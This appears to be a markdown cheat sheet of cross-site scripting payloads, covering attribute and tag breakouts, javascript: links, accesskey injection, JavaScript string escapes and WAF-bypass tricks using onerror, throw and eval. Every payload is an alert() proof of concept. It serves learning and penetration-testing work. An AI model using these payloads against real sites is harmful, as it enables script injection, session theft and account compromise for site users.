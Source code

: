 ```
"><svg><animatetransform onbegin=alert(1)>
```

### XSS in HTML tag attributes
When we commonly inject XSS between tags, we are able to close previous tag and create a new one:
```
"><script>alert(document.domain)</script>
```
But oftenly angle brackets are filtrated, but sometimes we have possibility to close atrtibute and add a new event which will trigger XSS:
```
" autofocus onfocus=alert(document.domain) x="
```
Sometimes XSS vecotr appears inside an element which could be used for XSS itself. For example in `href` element:
```
<a href="javascript:alert(document.domain)">
```
Some sites block angle brackets but still allow attribute injection. In such case we can use attributes such as `accesskey` which will fire up script after pressing some button  
So we can simply add nexxt payload to URL:
```
?'accesskey='x'onclick='alert(1)
```

### XSS in JavaScript
In the simplest case we can just terminate previous script and add our own:
```
</script><img src=1 onerror=alert(document.domain)>
```

Breaking out of JS string:
```
'-alert(document.domain)-'
';alert(document.domain)//
\';alert(document.domain)//
```
Last payload is used when single-quote is escaped with \  
Often WAFs restrict characters with only whitelisted ones. In such case we can use `onerror` event and `throw 1` to creat4e error  
```
onerror=alert;throw 1
```
```
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>
<script>{onerror=eval}throw'=alert\x281337\x29'</script> - \x28 and \x29 replace ()
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```
If we see that some unction takes some parameters from URL (for example for 'back' button), we can insert into URL code with & operator:
```
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'
```
